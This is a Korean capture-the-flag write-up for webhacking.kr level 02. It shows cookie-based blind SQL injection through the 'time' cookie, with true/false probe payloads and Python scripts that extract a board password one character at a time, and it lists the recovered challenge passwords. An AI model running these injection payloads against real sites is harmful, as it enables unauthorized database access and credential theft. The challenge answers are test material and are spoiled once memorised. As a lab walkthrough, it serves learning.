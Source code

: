 ================================================================================================================
[webhacking.kr] 02
================================================================================================================

Flow Chart
================================================================================================================

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8 -> step10 -> step12;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9 -> step11 -> step13;
        }
        step0 -> step1[label="time = '1 and 1=1'",arrowhead="normal"];
        step3 -> step2[label="<!--2070-01-01 09:00:01-->",arrowhead="normal"];
        step4 -> step5[label="time = '1 and 1=2'",arrowhead="normal"];
        step7 -> step6[label="<!--2070-01-01 09:00:00-->",arrowhead="normal"];
        step8 -> step9[label="time = 1 and (select if(length(password)>8,1,0) from FreeB0aRd)",arrowhead="normal"];
        step10 -> step11[label="time = 1 and (select ascii(substr(password,%d,1)) from FreeB0aRd)=%d",arrowhead="normal"];

    }

|

Source analysis
================================================================================================================

해당 html 소스 내에 주석 처리된 부분에 time이 출력되는 것을 볼 수 있는데, 쿠키 값에 time이 설정되어 있는 것으로 보아 해당 쿠키 값이 페이지 상에 출력되는 것으로 추측됩니다.

.. code-block:: html

    <html>
    <head>
    <title>Project Progress</title>
    </head>
    <body bgcolor=black>
    <center>
    <table width=970 bgcolor=white>
    <td colspan=5>
    <img src="img/new_main.jpg" alt="" usemap="#main.jpg" style="border: 0;" />
    <map name="main.jpg">
        <area shape="rect" coords="15,8,517,54" href="index.php" target="" alt="" />
        <area shape="rect" coords="339,63,403,93" href="about.php" target="" alt="" />
        <area shape="rect" coords="413,63,490,92" href="member.php" target="" alt="" />
        <area shape="rect" coords="500,63,582,92" href="research.php" target="" alt="" />
        <area shape="rect" coords="592,63,651,92" href="bbs/index.php" target="" alt="" />
        <area shape="rect" coords="662,64,745,93" href="fun.php" target="" alt="" />
        <area shape="rect" coords="756,63,825,93" href="contact.php" target="" alt="" />
        <area shape="rect" coords="851,7,890,65" href="admin/" target="" alt="" />

    </map>
    <br><center><br>
    </td><tr>
    </table>

    <table bgcolor=white width=976>
    <td width=88></td>
    <td width=800>
    <br>
    <center>
    <a href=index.php><img src=img/new.jpg border=0></a><br>
    <br><br>
    <!--2015-11-24 10:12:18--></td>
    <td width=88></td>
    </table>

    <table width=970 bgcolor=black>
    <td><br><center><font size=2 color=white>Copyright ¨Ï 2008 beistlab. All rights reserved</td>
    </table>

|

COOKIE Injection
================================================================================================================

Cookie 값 입력을 통해 True/False 여부를 확인합니다.

.. code-block:: console

    time = '1 and 1=1'  // True: <!--2070-01-01 09:00:01-->
    time = '1 and 1=2'  // False: <!--2070-01-01 09:00:00-->

|

Blind SQL Injection
================================================================================================================

테이블 명과 컬럼 명은 유추를 통해 확인할 수 있습니다.

- 테이블 명 : FreeB0aRd
- 컬럼명 : password

|

패스워드 길이 확인
================================================================================================================

다음 쿼리문을 입력해서 password 길이를 확인한다. 

- password 길이 : 9

.. code-block:: python

    import requests

    cookie = {
        "PHPSESSID":"di0tppi0hjd8prirqbkkl6isj2",
        "time":"1 and (select if(length(password)>8,1,0) from FreeB0aRd)"
    }
    url = "http://webhacking.kr/challenge/web/web-02/index.php"
    r = requests.get(url,cookies=cookie, verify=False)
       
    print r.content.split('<!--')[1].split('-->')[0]

|

패스워드 값 확인
================================================================================================================

다음 쿼리문을 입력해서 FreeB0aRd password 값을 확인한다.

- FreeB0aRd password : 7598522ae

.. code-block:: python

    import requests

    pw =""
    for i in range(1,10):
        for j in range(33,126):
            #print j
            cookie = {
                "PHPSESSID":"di0tppi0hjd8prirqbkkl6isj2",
                "time":"1 and (select ascii(substr(password,%d,1)) from FreeB0aRd)=%d" % (i,j)
            }

            url = "http://webhacking.kr/challenge/web/web-02/index.php"
            r = requests.get(url,cookies=cookie, verify=False)
            q = r.content.split('<!--')[1].split('-->')[0]
            if "09:00:01" in q:
                pw += chr(j)
                print pw
                break

    print pw

|

admin 패스워드 값 확인
================================================================================================================


확인된 패스워드를 패스워드가 걸려있는 게시판에 입력한 결과 하나의 다운로드 링크가 존재한다.
페이지에서 파일을 다운 받으면 __AdMiN__FiL2.zip 이라는 압축 파일이 존재하는데 해당 파일이 암호가 걸려있다.

해당 파일에 대한 패스워드는 admin 페이지에 존재하는 것으로 추측되며 admin 페이지 패스워드를 위와 같은 방식으로 찾는다.

- admin password: 0nly_admin

.. code-block:: html
    admin page

    Notice
    -관리자 패스워드가 유출되지 않게 조심하세요.
    -처음 사용하시는 분은 메뉴얼을 참고하세요.(메뉴얼 패스워드 : @dM1n__nnanual)


해당 패스워드로 압축 파일을 해제하면 인증 패스워드를 확인할 수 있다.
